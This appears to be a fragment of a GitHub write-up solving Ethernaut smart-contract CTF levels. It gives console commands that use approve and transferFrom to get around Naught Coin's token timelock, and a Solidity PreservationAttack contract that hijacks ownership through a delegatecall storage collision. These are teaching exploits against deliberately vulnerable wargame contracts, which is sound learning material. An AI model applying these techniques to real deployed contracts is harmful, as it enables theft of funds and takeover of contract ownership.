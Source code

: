 Deploy with params:<br>
- address: `contract.address` get on console window

===> submit level

### Naught Coin
console:<br>
```
let a = (await contract.balanceOf(player)).toString();
await contract.approve(player, a);
```
```
//any_address do not use player address
await contract.transferFrom(player, "<any_address>", a)
``` 
===> submit level

### Preservation
`PreservationAttack.sol`
```
pragma solidity ^0.6.0;

contract PreservationAttack {
    address a;
    address b;
    address public o;
    uint time;

    function setTime(uint t) public {
        o = msg.sender;
    }
}
```
Deploy

Copy address:<br>
![img](./img/preservation.png)
